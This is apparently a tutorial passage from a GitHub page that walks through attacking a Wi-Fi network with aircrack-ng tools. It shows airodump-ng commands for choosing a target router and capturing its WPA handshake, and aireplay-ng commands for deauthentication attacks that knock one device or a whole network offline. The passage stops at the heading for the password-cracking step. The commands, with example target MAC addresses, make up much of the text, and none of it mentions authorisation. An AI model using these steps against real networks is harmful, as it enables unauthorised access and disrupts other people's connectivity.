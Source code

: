 ### ctrl + c =>  to stop 
![Screenshot 2023-10-17 221340](https://github.com/Esther7171/web-development/assets/122229257/dd887d5b-5665-46e8-9a21-8149062b33ca)


* Copy bssid ofnetwork u like (bssid = mac address show on first row)
*  also note the ch (channel number of same router)

# step 3. Check devices connect to that network and capture Handshake-file 

* --bssid => whom u going to attack
* --channel => to give channel number if it or use [(-c) for channel but sometime it didn't work well ]
* station => is the device connectedto router.
![Screenshot 2023-10-17 221650](https://github.com/Esther7171/web-development/assets/122229257/9bc23ec6-1f6a-4916-8ca4-52262d0e6699)

* --write => to creat a file where my handshake store
```bash
airodump-ng wlan0 --bssid --channel --write /path/Meow.txt
```
```bash
airodump-ng wlan0 --bssid -c -w /path/Meow.txt
```
## for an example
```bash
airodump-ng wlan0 --bssid 3C:46:45:1D:5D:31 --channel 11  -w /home/death/Meow.txt
```

![Screenshot 2023-10-17 221855](https://github.com/Esther7171/web-development/assets/122229257/e9ec3986-5e54-4bf3-9345-d90fc7057e33)


# step 4. kick off people form there network / deauthentication attack

* aireplay-ng is powerfull we using itfor deauth people and capture handshake when they try to reconnect.
* -a => router mac addrs.
* -c => device connected with router we going to deauthenticate.
* --deauth / -0 => to send number of deauth packeges.
```bash
aireplay-ng wlan0 -a -c  --deauth 10
```  
```bash
aireplay-ng wlan0 -a <bssid> -c <station>  -0 <number of packages>
```  
## for example 
```bash
aireplay-ng wlan0 -a 3C:46:45:1D:5D:31 -c D4:36:89:A4:7R:29 --deauth 10
```  
# To deauth on whole network use :
```bash
aireplay-ng wlan0 -a <bssid> -0 <deauth n.o packages>
```
## your handshake-file will be stored in the path u give 
- .cap  is the file fo capture handshake .  In my case is Meow.txt.cap
- so we going to crack it by aircrack-ng with wordlists.
# step 5. Crack the password / handshake file.